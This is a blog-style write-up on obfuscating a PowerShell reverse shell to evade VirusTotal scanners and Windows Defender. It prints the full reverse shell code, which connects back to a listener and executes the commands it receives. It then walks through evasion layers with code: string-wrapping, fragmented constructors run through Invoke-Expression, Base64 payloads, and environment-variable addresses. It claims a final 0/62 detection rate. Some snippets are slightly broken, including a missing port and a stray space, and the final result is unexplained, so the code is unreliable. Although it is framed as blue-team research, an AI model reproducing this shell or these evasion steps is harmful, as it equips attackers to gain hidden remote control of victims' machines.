


I took a textbook PowerShell reverse shell and systematically hid it from signature-based scanners and endpoint detection tools. This isn't just an exercise, it's exactly the kind of analysis security operations centers run when investigating alerts or building detection rules.

# What I Started With

I began with a standard PowerShell reverse shell that connects back to a listener. In its original form, the script is straightforward: it uses calls like `New-Object System.Net.Sockets.TCPClient`, reads from the network stream, and writes commands to the shell. It's clear, readable, and also very easy for tools to flag as malicious.
```powershell
powershell -nop -c "
$client = New-Object System.Net.Sockets.TCPClient('192.168.0.143')
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$data = (New-Object -TypeName System.Text.ASCIIEncoding).
GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()"
```
When I uploaded this unmodified script to VirusTotal, it came back with a 19/62 detection rate and was blocked by Windows 11 Defender. That was expected, but it gave me a good baseline to compare against the obfuscated versions later.



# The Detection Blind Spot

My first change was so simple, a function called `call` that wraps method names and command strings. Nothing functionally changes, but `System.Net.Sockets.TCPClient` becomes `call("System.Net.Sockets.TCPClient")`.

```powershell
function call {
    param ([string]$string)
    return $string
}
```

__Why this matters__: Most signature-based systems look for direct string matches. This wrapper breaks those exact matches while behavioral analysis struggles with the indirection. Detection rate dropped to 9/62, Windows Defender stopped blocking, but here's the interesting part, an AI-based tool (NICS Lab) still caught it by recognizing the obfuscation pattern itself. This shows exactly why blue teams need layered detection, signature + behavioral + AI.

# Breaking Static Analysis

Next, I fragmented the `TCPClient` constructor string across multiple variables, reassembled them through the `call` function, then `Invoke-Expression`. Instead of one obvious string, you get harmless fragments scattered throughout.

```powershell
$TCPClient = 'TCPClient("192.168.130.45", 7891)';
$openSocket = call ('New-Object System.Net. Sockets.' + $TCPCLient)
$client = Invoke-Expression $openSocket;
```

This approach breaks a sensitive value into smaller, less suspicious fragments. Static scanners that rely on pattern matching are more likely to miss these scattered pieces, especially if they never see the full string in one place. From a human point of view, the script looks messier and harder to read, but from the scanner's point of view, it looks less obviously malicious.

Red team perspective: This mimics real APT techniques where C2 frameworks split commands across memory regions or reconstruct payloads at runtime. Static analysis fails here. You need runtime monitoring that watches object creation patterns and network connections, not just string searches.

# Encoding + Environment Variables

I also implemented two staples of production malware: base64 encoding of the full `TCPClient` constructor, decoded at runtime; and environment variables for IP/port `($env:IP, $env:PORT)` instead of hardcoded values.

With Base64, I took the object creation call. For example, `New-Object System.Net.Sockets.TCPClient("192.168.130.45", 7891)`, encoded it as a Base64 string, decoded it at runtime, and executed it with `Invoke-Expression`. The logic is the same, but the readable command disappears from the plain script and only exists in decoded form during execution.

Environment variables offer another layer. Instead of hardcoding the IP address and port, I stored them in variables like `$env:IP` and `$env:PORT`. This hides critical details from quick code inspection and makes static analysis slightly harder, because the values come from the runtime environment, not from literals in the source.

Even with Base64 added into the call function, the detection results stayed around 9/62 and the script remained unblocked by Windows Defender. That reinforced a simple lesson: basic obfuscation can noticeably reduce signature-based detections, but it does not magically make malware "invisible", especially to more advanced tools.



The final payload maintained 0/62 VirusTotal detections while staying fully functional. This is why signature-based detection alone fails against even basic obfuscation.